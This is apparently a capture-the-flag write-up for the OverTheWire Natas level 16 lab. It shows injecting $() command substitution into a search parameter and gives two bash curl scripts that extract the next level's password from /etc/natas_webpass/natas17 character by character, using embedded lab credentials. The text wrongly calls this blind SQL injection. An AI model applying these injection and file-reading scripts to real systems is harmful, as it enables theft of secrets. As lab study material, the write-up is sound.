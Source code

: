 Similar to the previous level, we will try to get the password char by char by using `blind SQL injection`. We can use `$()` to execute commands inside the `grep` parameter, and it's output will be the search input. For example, if we use `$(whoami)`, the search input will be `natas17`. In our case, we will use another `grep`, and it's output will be the input of the server's `grep`.

First, we will test an input that the password cannot contain.
```bash
$(grep $$$ /etc/natas_webpass/natas17)
```
The website returns everything inside `dictionary.exe`, and this is because the output of that command is empty, so every line returns true for the server's `grep`. Next, we will try some legitimate chars that can appear inside the password file.
```bash
$(grep a /etc/natas_webpass/natas17)
$(grep b /etc/natas_webpass/natas17)
```
The first input `a` gives a response similar to `$$$`, so there is no `a` in the password. on the other hand, `b` gives an empty response, so we know that there is a `b` in the password.

```bash
#!/bin/bash
url="http://natas16.natas.labs.overthewire.org"
credentials="natas16:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"
passChars=""
chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

for char in $(echo $chars | fold -w1); do
	response=$(curl -s -u $credentials "$url?needle=\$(grep+$char+/etc/natas_webpass/natas17)&submit=Search");

	if ! echo "$response" | grep -q "April"; then
		passChars=$passChars$char
	fi
done
echo $passChars
```
We go over all the options and we find that the password only contain these chars `bhjkoqsvwCEFHJLNOT05789`, but we do not know the order. We will do something similar to the previous level.
```bash
#!/bin/bash
url="http://natas16.natas.labs.overthewire.org"
credentials="natas16:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"
pass=""
chars="bhjkoqsvwCEFHJLNOT05789"

while true; do
	counter=0
	for char in $(echo $chars | fold -w1); do
		response=$(curl -s -u $credentials "$url?needle=\$(grep+$pass$char+/etc/natas_webpass/natas17)&submit=Search");

		if ! echo "$response" | grep -q "April"; then
			pass=$pass$char
			echo "found $char"
			counter=35
		fi
		((counter++))
	done
	if [ $counter -eq ${#chars} ]; then
		break
	fi
done
echo $pass
```